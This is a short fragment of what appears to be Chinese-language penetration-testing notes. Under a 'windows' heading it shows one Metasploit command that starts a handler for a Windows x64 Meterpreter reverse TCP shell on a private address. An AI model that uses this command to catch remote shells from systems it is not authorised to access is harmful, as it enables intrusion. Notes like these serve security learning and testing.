 #### 一、windows

<br/>

快捷指令开启监听，无需use模块

```sh
handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.10.11 -P 5555
```

